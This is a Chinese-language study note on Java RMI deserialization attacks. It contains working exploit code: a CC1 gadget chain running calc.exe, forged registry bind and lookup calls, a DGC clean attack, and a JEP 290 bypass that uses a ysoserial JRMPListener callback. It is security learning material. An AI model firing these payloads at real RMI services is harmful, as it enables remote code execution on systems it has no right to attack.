

# RMI （Remote Method Invocation）反序列化漏洞

## 1. RMI 基本原理

### 1. 1 RMI 的基本使用

1. 详见（缪雪峰的 Java 教程）：

    > https://www.liaoxuefeng.com/wiki/1252599548343744/1323711850348577

2. 注意点：

    1. 服务器和客户端因为要共享接口，而且底层是通过序列化和反序列化进行对象的传输与创建，因此**客户端一定要有接口的 java 文件。**

    2. 远程导入那步，即：
        ```java
        // 手动导出
        IMyRemote myExportedRemote = (IMyRemote) UnicastRemoteObject.exportObject(myRemote, 0);
        ```

        如果接口的实现类，继承了 UnicastRemoteObject 并实现了其构造方法：
        ```java
        public MyRemoteImpl() throws RemoteException {
        }
        ```

        那么 `exportObject()` 的调用可以省略。

### 1.2 RMI 的底层原理

1. 参考文章

    > su18 师傅的文章：https://su18.org/post/rmi-attack/
    >
    > 白日梦组长师傅的文章：https://halfblue.github.io/2021/10/26/RMI%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%B9%8B%E4%B8%89%E9%A1%BE%E8%8C%85%E5%BA%90-%E6%B5%81%E7%A8%8B%E5%88%86%E6%9E%90/
    >
    > 白日梦组长师傅的教程视频：https://www.bilibili.com/video/BV1L3411a7ax/?spm_id_from=333.999.0.0

2. 当 Server 和 Registry 不在同一台主机时，各个部分所含的主要对象：
    

3. 如果在同一主机时，Server 端拿到的**就是 `RegistryImpl` 对象**而不是自己生成 `RegistryImpl_Stub`，此时在“注册中心绑定”时就不会通过 `RegistryImpl_Stub` 来和 Registry 通信，而是直接拿到了 `RegistryImpl` 对象并调用其 `bind()/rebind()`，因此就**不会调用 Registry 的 `UnicastServerRef` 对象的 `RegistryImpl_Skel` 的 `dispatch()` 来进行序列化和反序列化的处理**。但是客户端进行“服务查找”时，还是会调用 `RegistryImpl_Skel` 的 `dispatch()`。

## 2. RMI 的攻击

### 2.1 攻击注册中心的补充（CC 版本 3.0）

1. 根据 su18 师傅和白日梦组长师傅的文章，这里对“攻击注册中心”进行一个补充：
    ```java
    public class MyRemoteClient {
        public static void main(String[] args) throws RemoteException, NotBoundException {
            // 通过注册中心连接到服务器
            Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
            // 通过服务名查找服务，并转型成接口
            IMyRemote myRemote = (IMyRemote) registry.lookup("myRemote");
            // 调用方法
            // myRemote.saySth("Hello");
    
            // 自定义 lookup 然后发起请求
            // myLookup(registry);
            // bind 和 rebind 也可以自定义 bind 然后发起请求
            myBind(registry);
            // JEP 290 后，服务端和注册中心必须在同一个 host 下，那么客户端就不能发起 bind 和 rebind 请求了，因此就是服务端对注册中心进行攻击（不过两者又在同一 ip 下，因此相当于没有这种攻击了）。
            
            // 由于 bind 和 rebind 绑定时传入的是 Remote 的子类（自己定义的远程调用接口也是继承 Remote），因此还有一个思路就是传入恶意的 Remote 子类。
            // https://su18.org/post/rmi-attack/#2-%E6%94%BB%E5%87%BB-registry-%E7%AB%AF su18 师傅用的是 CC6 链
        }
    
        /**
         * 模拟 RMI RegistryImpl_Stub 的 bind，手动对 Registry 发起请求
         * @param registry
         */
        private static void myBind(Registry registry) {
            // 拿到 RegistryImpl_Stub 的 UnicastRef
            UnicastRef unicastRef = (UnicastRef) ((RegistryImpl_Stub) registry).getRef();
    
            // 模仿
            Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"),
                    new Operation("java.lang.String list()[]"),
                    new Operation("java.rmi.Remote lookup(java.lang.String)"),
                    new Operation("void rebind(java.lang.String, java.rmi.Remote)"),
                    new Operation("void unbind(java.lang.String)")};
            try {
                RemoteCall var3 = unicastRef.newCall((RemoteObject) registry, operations, 0, 4905912898345647071L);
                ObjectOutput var4 = var3.getOutputStream();
                var4.writeObject("test");
                var4.writeObject(getSerializedCC1Object());
                unicastRef.invoke(var3);
            } catch (Exception e) {
                throw new RuntimeException(e);
            }
    
        }
    
        /**
         * 模拟 RMI RegistryImpl_Stub 的 lookup，手动对 Registry 发起请求，源代码中是将传入的 name(String) 进行序列化发过去，因此在原来的 lookup 上没法下手脚。
         * 因此只能模仿其原生的逻辑，writeObject() 序列化一个对象（而不是 String）发送过去
         * @param registry
         */
        private static void myLookup(Registry registry) {
            try {
                // 拿到 RegistryImpl_Stub 的 UnicastRef
                UnicastRef unicastRef = (UnicastRef) ((RegistryImpl_Stub) registry).getRef();
    
                // 模拟 RMI RegistryImpl_Stub 的 lookup，手动对 Registry 发起请求
                Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"),
                        new Operation("java.lang.String list()[]"),
                        new Operation("java.rmi.Remote lookup(java.lang.String)"),
                        new Operation("void rebind(java.lang.String, java.rmi.Remote)"),
                        new Operation("void unbind(java.lang.String)")};
                RemoteCall var2 = unicastRef.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
                ObjectOutput var3 = var2.getOutputStream();
                var3.writeObject(getSerializedCC1Object());
                unicastRef.invoke(var2);
            } catch (Exception e) {
                throw new RuntimeException(e);
            }
    
        }
    
        public static Object getSerializedCC1Object() throws Exception {
            // 1. 构造链
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
            };
            Transformer transformedChain = new ChainedTransformer(transformers);
    
            // 2. 构造 LazyMap（同时也相当于创建被代理类）
            HashMap<Object, Object> map = new HashMap<>();
            LazyMap lazyMap = (LazyMap) LazyMap.decorate(map, transformedChain);
    
            // 3. 把 AnnotationInvocationHandler 的构造函数搞出来
            // 通过反射，获取到 class 类对象
            Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            // 通过 class 类对象获取 class 类对象的构造函数
            Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
            // 取消其访问检查（即绕过 protected 和 private 关键字修饰，直接对其变量赋值），
            aIHClassDeclaredConstructor.setAccessible(true);
    
            // 4. 先搞出来一个调用处理器，这里第一个参数没有要求
            InvocationHandler invocationHandler = (InvocationHandler) aIHClassDeclaredConstructor.newInstance(Override.class, lazyMap);
    
            // 5. 创建代理对象（被代理类已经创建好了）
            System.out.println(Arrays.toString(lazyMap.getClass().getInterfaces()));
            Map proxyMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
    
            // 6. 实例化并被序列化的对象（注意这里要传入代理对象，这样才能在其 readObject() 中调用代理对象的方法（即 entrySet()）
            return aIHClassDeclaredConstructor.newInstance(Override.class, proxyMap);
        }
    }
    ```

2. 底层原理应该都是将数据序列化发过去，然后注册中心再反序列化。不过由于 `lookup()` 只能传字符串，所以不能直接像 su18 师傅那样，直接传链。所以需要模拟原生的方法来发送对象序列化后的数据。

### 2.2 使用 DGC 通信进行攻击（补充）

1. 相关注释都在代码中：
    ```java
    public static void main(String[] args) throws Exception {
        // 通过注册中心连接到服务器
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        // 通过服务名查找服务，并转型成接口
        IMyRemote myRemote = (IMyRemote) registry.lookup("myRemote");
        // 调用方法
        // myRemote.saySth("Hello");
    
        // 自定义 DGC clean 请求并向服务中心和服务端发起攻击
        myDGCClean(registry);
    }
    
    private static void myDGCClean(Registry registry) throws Exception {
        // 先拿到和注册中心通讯的 UnicastRef
        UnicastRef unicastRef = (UnicastRef) ((RegistryImpl_Stub) registry).getRef();
    
        // 通过 UnicastRef，获取到 LiveRef
        LiveRef liveRef = unicastRef.getLiveRef();
    
        // 再通过反射拿到 TCPEndpoint
        Class<? extends LiveRef> tcpEndpointClass = liveRef.getClass();
        Field epField = tcpEndpointClass.getDeclaredField("ep");
        epField.setAccessible(true);
        TCPEndpoint tcpEndpoint = (TCPEndpoint) epField.get(liveRef);
    
        // 根据客户端在 DGCImpl_Stub 被创建的流程，拿到其内部类 EndpointEntry 类，调用它的 lookup 方法（返回值是 EndpointEntry）并创建 DGCImpl_Stub
        Class<?> DGCClient_EndpointEntryClass = Class.forName("sun.rmi.transport.DGCClient$EndpointEntry");
        Method lookupMethod = DGCClient_EndpointEntryClass.getDeclaredMethod("lookup", Endpoint.class);
        lookupMethod.setAccessible(true);
        Object endpointEntry = lookupMethod.invoke(null, tcpEndpoint);
    
        // EndpointEntry 对象中给出了调用 dirty 的方法：通过其属性 dgc 然后调用 dgc.dirty。
        // 这里拿 DGC 就相当于拿到 DGCImpl_Stub（因为 DGC 创建的逻辑是 (DGC) Util.createProxy()，也就是本地创建代理类，和 RegistryImpl_Stub 的逻辑相似
        // todo 这里可能是需要 EndpointEntry 在实例化过程中（创建 DGCImpl_Stub 的过程中）创建的、和 DGCImpl 通信的 UnicastRef。
        // 根据 EndpointEntry 构造函数可知，dgc 应该就是 DGCImpl_Stub，然后其 dgcRef 就是在 DGC 中使用的 LiveRef（其实它和 RegistryImpl_Stub 的 LiveRef 相比应该就是只是改了个 ObjID）
        Field dgcField = endpointEntry.getClass().getDeclaredField("dgc");
        dgcField.setAccessible(true);
        DGCImpl_Stub dgc = (DGCImpl_Stub) dgcField.get(endpointEntry);
    
        // 原先执行 dirty 是（也就是白日梦组长的逻辑）：DGCImpl_Stub 的父类的父类 RemoteObject 的 ref 变量，然后调用它的 newCall()
        // Class c6 = dgc.getClass().getSuperclass().getSuperclass();
        // Field refField3 = c6.getDeclaredField("ref");
        // refField3.setAccessible(true);
        // UnicastRef unicastRef2 = (UnicastRef) refField3.get(dgc);
        // 不过实际上父类和子类的 ref/unicastRef 应该是一样的，而且都提供了 getRef() 方法，因此直接用就行
        // 本质上就是拿到 DGC/DGCImpl_Stub 通信时用到的 UnicastRef，这里和上面的 unicastRef 对比，其 ObjID 发生了改变。
        UnicastRef unicastRef2 = (UnicastRef) dgc.getRef();
    
        Operation[] operations = new Operation[]{new Operation("void clean(java.rmi.server.ObjID[], long, java.rmi.dgc.VMID, boolean)"), new Operation("java.rmi.dgc.Lease dirty(java.rmi.server.ObjID[], long, java.rmi.dgc.Lease)")};
        // newCall 的第一个参数是 this，即 DGCImpl_Stub 这里就是 dgc
        RemoteCall var5 = unicastRef2.newCall(dgc, operations, 1, -669196253586618813L);
        ObjectOutput var6 = var5.getOutputStream();
        var6.writeObject(getSerializedCC1Object());
        unicastRef2.invoke(var5);
    }
    ```

2. todo：DGC 打的究竟是服务端还是注册中心？目前注册中心和服务端应该在同一个 IP 上，暂时不考虑。个人偏向的观点是注册中心，因为不知道 DGCImpl（服务端）所在端口，只知道注册中心的端口是 1099。（如果是通过 `lookup()` 查出的服务应该是知道的，因为获得的接口实际上是代理类，内部的 `UnicastRef` 有服务端对应服务的端口）。

### 2.3 动态加载类

1. 详见：

    > https://www.cnblogs.com/CoLo/p/15468660.html#rmi-%E5%8A%A8%E6%80%81%E5%8A%A0%E8%BD%BD%E7%B1%BB

## 3. 高版本绕过 - JEP290

### 3.1 底层原理

1. 让攻击者发送 payload 让目标服务器发起一个 JRMP 请求去链接客户的 JRMP 服务器

### 3.2 目标

1. 找到一个序列化点，使其创建 `DGCImpl_Stub`，然后其调用 `invoke()` 时会调用 `StreamRemoteCall#executeCall()`（这个方法会对 JRMP 服务端返回的数据进行反序列化）（这也是 JRMP 客户端被攻击的原理）。

### 3.3 具体实现

1. 详见：

    > https://halfblue.github.io/2021/11/03/RMI%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%B9%8B%E4%B8%89%E9%A1%BE%E8%8C%85%E5%BA%90-JEP290%E7%BB%95%E8%BF%87/

    以及其配套视频：

    > https://www.bilibili.com/video/BV1L3411a7ax/?p=9&vd_source=93978f7f30465e9813a89cdacc505a92

### 3.4 补充

1. > 再往上发现LiveRef#read在UnicastRef#readExternal里调用了，这就有意思了。readExternal就是实现Externalize接口的类反序列化时触发的方法，那也就是说如果同一个输入流里有UnicastRef对象反序列化了，并且之后调用了releaseInputStream就能触发DGCClient$EndPointEntry的构造函数，

    细说就是：给一个 `UnicastRef` 让其反序列化，这个过程中会调用 `LiveRef.read()`，最终导致 `incomingRefTable` 内的值不为空。一般情况下这个值都是空的；一旦不为空，在正常的流程中 `UnicastServerRef`、`RegistryImpl_Skel` 以及 `DGCImpl_Skel` 三者的 `dispatch()` 都会调用 `DGCClient.registerRefs()`，最终创建 `DGCImpl_Stub`。（简单点说就是通过反序列化让 `incomingRefTable` 不为空，从而使其正确的流程出问题）

2. > 最终触发makeDirtyCall发起UnicastRef#invoke，导致被攻击。顺便也发现了某些情况UnicastRef可以作为一个连接readExternal和readObject的gadget。

    上一点说明的是“创建出 `DGCImpl_Stub`”这一问题。接下来就是要解决“如何调用 `DGCImpl_Stub` 的 `dirty()/clean()`，从而发起 JRMP 请求”。在 `EndpointEntry()` 的构造函数中：
    ```java
    private EndpointEntry(Endpoint var1) {
        this.endpoint = var1;
    
        try {
            LiveRef var2 = new LiveRef(DGCClient.dgcID, var1, false);
            this.dgc = (DGC)Util.createProxy(DGCImpl.class, new UnicastRef(var2), true);
        } catch (RemoteException var3) {
            throw new Error("internal error creating DGC stub");
        }
    
        this.renewCleanThread = (Thread)AccessController.doPrivileged(new NewThreadAction(new RenewCleanThread(), "RenewClean-" + var1, true));
        this.renewCleanThread.start();
    }
    ```

    `new RenewCleanThread()` 创建了一个新线程，其 `run()` 中调用了：

    ```java
    AccessController.doPrivileged(new PrivilegedAction<Void>() {
        public Void run() {
            if (var4) {
                EndpointEntry.this.makeDirtyCall(var5, var6);
            }
    
            if (!EndpointEntry.this.pendingCleans.isEmpty()) {
                EndpointEntry.this.makeCleanCalls();
            }
    
            return null;
        }
    }
    ```

    里面有 `makeDirtyCall()` 和 `makeCleanCalls()`，从而调用 `dirty()/clean()`。
3. 总的来看，调用 `dirty()/clean()` 的流程依旧是业务本身的正常流程。同样也是 su18 师傅中提到的 `UnicastRef` 那一条链。
4. 所以，最终的使用就是在“攻击注册中心和服务端”的方法之上，恶意对象（被反序列化的对象）是 `UnicastRef`，然后通过 `ysoserial/exploit/JRMPListener` 创建一个传输利用链（例如 CC）的恶意 JRMP 服务端，接收目标发起的 DGC 请求。从而造成漏洞。
5. 例子：
   ```java
   public static void main(String[] args) throws Exception {
       // 通过注册中心连接到服务器
       Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
       // 通过服务名查找服务，并转型成接口
       IMyRemote myRemote = (IMyRemote) registry.lookup("myRemote");
       // 调用方法
       // myRemote.saySth("Hello");
   
       // 绕过 JEP 290
       attackBypassJEP290(myRemote);
   }
   
   /**
    * 绕过 JEP290，通过 ysoserial 的 JRMPListener 来攻击服务端
    * @param myRemote
    */
   private static void attackBypassJEP290(IMyRemote myRemote) {
       // 创建 UnicastRef
       // 7777 为 JRMPListener 的开放端口
       LiveRef liveRef = new LiveRef(new ObjID(), new TCPEndpoint("127.0.0.1", 7777), false);
       UnicastRef unicastRef = new UnicastRef(liveRef);
       try {
           // 这里不用对恶意类序列化，因为 RegistryImpl_Stub 会对其进行序列化
           myRemote.getObject(unicastRef);
       } catch (Exception e) {
           throw new RuntimeException(e);
       }
   }
   ```

   运行：
   ```bash
   java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 7777 CommonsCollections6 calc
   ```

   结果喜提计算器。

## 4. 相关的反序列化链

1. todo：// RemoteObject 链
2. todo：// 使用 RemoteObject 链的 JRMPClient 的使用场景

### 5. 高版本绕过 - JDK8u231

1. todo
